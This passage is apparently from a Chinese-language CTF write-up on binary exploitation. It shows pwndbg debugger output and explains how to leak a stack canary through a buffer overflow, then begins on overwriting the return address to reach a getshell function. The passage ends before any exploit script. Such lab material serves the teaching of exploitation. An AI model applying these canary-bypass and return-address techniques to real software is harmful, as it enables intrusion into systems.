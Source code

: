 ```asm

   0x557c8443aa0d    lea    rax, [rbp - 0x30]
   0x557c8443aa11    mov    edx, 0x60
   0x557c8443aa16    mov    rsi, rax
   0x557c8443aa19    mov    edi, 0
   0x557c8443aa1e    call   0x557c8443a7f0

   0x557c8443aa23    mov    eax, 0
   0x557c8443aa28    mov    rcx, qword ptr [rbp - 8]
   0x557c8443aa2c    xor    rcx, qword ptr fs:[0x28]
   0x557c8443aa35    je     0x557c8443aa3c

   0x557c8443aa37    call   0x557c8443a7c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsi rsp  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│          0x7ffd97aa0438 ◂— 0xb3012605fc402a61
06:0030│ rbp      0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
07:0038│          0x7ffd97aa0448 —▸ 0x557c8443aa6a ◂— mov    eax, 0
Breakpoint *(0x557c8443a000+0xA08)
pwndbg> canary
$1 = 0
canary : 0xb3012605fc402a00
pwndbg>
```

canary 在 rbp - 0x8 的位置上, 可以看出此时 canary 的低位已经被覆盖为 0x61, 这样只要接收 'a' * (0x30 - 0x8 + 1) 后的 7 位, 再加上最低位的 '\0', 我们就恢复出程序的 canary 了

#### 覆盖返回地址
有了 canary 后, 就可以通过第二次的栈溢出来改写返回地址了, 控制返回地址到 getshell 函数即可, 我们先看一下没溢出时的返回地址

```asm
0x000055dc43694a1e in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RBX  0x0
 RCX  0x7f206c6696f0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x60
 RDI  0x0
 RSI  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f206cb22700 ◂— 0x7f206cb22700
 R9   0x3e
 R10  0x73
 R11  0x246
 R12  0x55dc43694830 ◂— xor    ebp, ebp
 R13  0x7fff9aa3b050 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
 RSP  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x55dc43694a1e ◂— call   0x55dc436947f0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
   0x55dc43694a08    call   0x55dc436947e0
 
   0x55dc43694a0d    lea    rax, [rbp - 0x30]
   0x55dc43694a11    mov    edx, 0x60
   0x55dc43694a16    mov    rsi, rax
   0x55dc43694a19    mov    edi, 0
 ► 0x55dc43694a1e    call   0x55dc436947f0
```